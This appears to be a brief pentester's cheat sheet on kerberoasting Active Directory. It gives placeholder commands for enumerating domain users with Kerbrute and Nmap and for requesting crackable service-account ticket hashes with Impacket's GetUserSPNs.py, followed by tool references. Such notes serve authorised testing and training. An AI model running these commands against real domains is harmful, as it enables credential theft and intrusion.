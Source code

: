 # Unix Shell

Search Tags: #kerberoasting

## 01 - Enumerate Users

### 1.1 - Kerbrute

- Enumerate users against the active directory

`$ ./kerbrute userenum --dc <IP> -d <domain_name> users.lst [-t 64]`

### 1.2 - Nmap

`$ nmap -p 88 -Pn --script=krb5-enum-users --script-args krb5-enum-users.realm="<domain_name>",userdb=users.lst <IP>`

## 02 - Impacket

- Request a Kerberos 5 TGS-REP etype 23 hash from an SPN user account

`$ GetUserSPNs.py -request -dc-ip <IP> <domain_name>/<username>:<password>`

---
## References

- [Impacket](https://github.com/fortra/impacket)

- [Kerbrute](https://github.com/ropnop/kerbrute)

- [Hacking Articles: Abusing Kerberos Using Impacket](https://www.hackingarticles.in/abusing-kerberos-using-impacket/)

- [Certcube: Kerberoasting Common Tools](https://blog.certcube.com/kerberoasting-common-tools/)

- [Pentesting Kerberos 88](https://book.hacktricks.xyz/pentesting/pentesting-kerberos-88)